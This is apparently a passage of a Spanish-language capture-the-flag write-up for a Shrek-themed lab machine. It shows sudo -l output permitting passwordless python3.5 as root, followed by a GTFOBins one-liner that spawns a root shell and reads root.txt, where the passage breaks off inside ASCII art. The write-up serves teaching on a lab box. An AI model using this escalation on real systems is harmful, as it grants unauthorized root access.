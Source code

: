 ~~~
XXXXXXXXXXXKc       .0MMMMMMMMMMMMMMMMMMMMMMMMMMMk.   ............    xXXXXX
XXXXXXXXXXl        cWMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMo   .............   :XXXX
XXXXXXXXK.        dMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM0    ............   .KXX
XXXXXXXX.        'MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMO   .............   'XX

invite-me: https://www.linkedin.com/in/eliastouguinho/
~~~


## Escalada de privilegios

En este caso vamos a ver los permisos de sudo:

~~~bash
shrek@ubuntu:~$ sudo -l
Matching Defaults entries for shrek on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shrek may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/python3.5
~~~

Interesante, con esto ya parece que nos basta y podemos conseguir root apoyándonos en <https://gtfobins.github.io/gtfobins/python/#shell>:

~~~python
shrek@ubuntu:~$ sudo /usr/bin/python3.5 -c 'import os; os.system("/bin/sh")'
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt  
                            ____
        ____....----''''````    |.
,'''````            ____....----; '.
| __....----''''````         .-.`'. '.
|.-.                .....    | |   '. '.
`| |        ..:::::::::::::::| |   .-;. |
 | |`'-;-::::::::::::::::::::| |,,.| |-='
 | |   | ::::::::::::::::::::| |   | |
 | |   | :::::::::::::::;;;;;| |   | |
 | |   | :::::::::;;;2KY2KY2Y| |   | |
 | |   | :::::;;Y2KY2KY2KY2KY| |   | |
 | |   | :::;Y2Y2KY2KY2KY2KY2| |   | |
 | |   | :;Y2KY2KY2KY2KY2K+++| |   | |
 | |   | |;2KY2KY2KY2++++++++| |   | |
 | |   | | ;++++++++++++++++;| |   | |
 | |   | |  ;++++++++++++++;.| |   | |
 | |   | |   :++++++++++++:  | |   | |
 | |   | |    .:++++++++;.   | |   | |
 | |   | |       .:;+:..     | |   | |
 | |   | |         ;;        | |   | |
 | |   | |      .,:+;:,.     | |   | |
 | |   | |    .::::;+::::,   | |   | |
 | |   | |   ::::::;;::::::. | |   | |
 | |   | |  :::::::+;:::::::.| |   | |
 | |   | | ::::::::;;::::::::| |   | |
 | |   | |:::::::::+:::::::::| |   | |
 | |   | |:::::::::+:::::::::| |   | |
 | |   | ::::::::;+++;:::::::| |   | |
 | |   | :::::::;+++++;::::::| |   | |
 | |   | ::::::;+++++++;:::::| |   | |
 | |   |.:::::;+++++++++;::::| |   | |
~~~